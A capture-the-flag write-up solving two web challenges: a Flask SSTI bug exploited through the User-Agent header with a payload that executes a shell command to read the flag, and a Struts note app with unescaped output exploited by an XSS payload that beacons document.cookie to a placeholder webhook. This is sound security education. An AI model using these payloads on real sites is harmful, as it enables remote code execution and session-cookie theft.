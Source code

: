 Solves: OS Detection(Web), Notes(web)
## OS Detection.
#langs/python 
A SSTI challenge with source code provided. 
```python
from flask import Flask, request, render_template, render_template_string
from ua_parser import user_agent_parser

app = Flask(__name__)

@app.route("/")
def home():
    user_agent = request.headers.get('User-Agent')
    try:
        parsed_string = user_agent_parser.Parse(user_agent)
        family = parsed_string['os']['family']
        user_agent_hint = render_template_string(user_agent)
        return render_template('index.html', os=family, user_agent=user_agent_hint)
    except Exception as e:
        return render_template('failure.html', error=str(e))
    
@app.route("/source")
def source():
    code = open(__file__).read()
    return render_template_string("<pre>{{ code }}</pre>", code=code)
    

if __name__ == "__main__":
    # No debug, that would be insecure!
    #app.run(debug=True)
    app.run()
```
Our user agent is directly passed to `render_template_string` to be rendered, leading to SSTI.
Payload:
```python
{{cycler.__init__.__globals__.os.popen('cat /app/flag/flag.txt').read()}}
```
`PP{h4ck3r-OS-d3t3ct3d::BEZvg-hcyu2a}`
## Notes
#langs/java 
#libs/apache-struts
A java web server featuring a note management app. Source code is provided
### Intended solution
 The goal of this challenge is to steal the cookie of an admin bot. After registering and messing around, we find that notes stored aren't escaped when displayed, allowing for XSS.
```html
...
<p class="block">  
  <s:if test="note.body == ''">  
    <em>This note is empty</em>  
  </s:if>  
  <s:else>  
    <s:property escapeHtml="false" value="note.body"/>  
  </s:else>  
</p>
...
```
With this, we could craft a payload such as
```html
<script>
navigator.sendBeacon("<webhook>/?q="+document.cookie)
</script>
```